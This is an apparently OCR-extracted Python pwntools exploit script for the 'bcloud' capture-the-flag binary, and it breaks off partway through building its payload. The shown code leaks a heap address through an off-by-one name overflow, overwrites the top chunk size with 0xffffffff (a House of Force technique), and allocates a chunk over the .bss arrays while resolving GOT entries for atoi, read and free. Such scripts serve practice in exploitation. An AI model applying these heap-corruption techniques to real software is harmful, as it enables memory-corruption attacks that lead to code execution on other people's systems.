 ```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context(log_level = 'critical')

p = process('./bcloud')
elf = ELF('./bcloud')
libc = ELF('/lib32/libc.so.6')

atoi_got = elf.got['atoi']
read_got = elf.got['read']
free_got = elf.got['free']
printf_plt = elf.plt['printf']

bss = 0x0804B060
content_length = 0x0804b0a0
content_addr = 0x804B120

def new(length, content):
    p.recvuntil('>>\n')
    p.sendline('1')
    p.recvuntil('content:\n')
    p.sendline(str(length))
    p.recvuntil('content:\n')
    p.sendline(content)

def edit(index, content):
    p.recvuntil('>>\n')
    p.sendline('3')
    p.recvuntil('id:\n')
    p.sendline(str(index))
    p.recvuntil('content:\n')
    p.sendline(content)
    p.recvuntil('success.\n')

def leak_overwrite_wildness():
    p.recvuntil('name:\n')
#   raw_input()
    p.send('a' * (0x40 - 1) + 'b')
    p.recvuntil('b')
    addr = p.recv(4)
    p.recvline()
    p.recvuntil('Org:\n')
    p.send('a' * 0x40)
    p.recvuntil('Host:\n')
    p.sendline('\xff\xff\xff\xff')
    return u32(addr)

def main():
#   leak name_heap_addr 
    name_heap_addr = leak_overwrite_wildness()
    print 'name_heap => ', hex(name_heap_addr - 0x08)
    base_heap = name_heap_addr + 0xd0
    print 'base_heap => ', hex(base_heap)

#   malloc a gabage chunk to bss
    offset = bss - base_heap + 0x30
    print 'offset => ', offset
    new(offset, 'abcdabcd') # id0

#   malloc a chunk on bss of free and overwrite content_length[] & content_addr[]
    payload = ''
```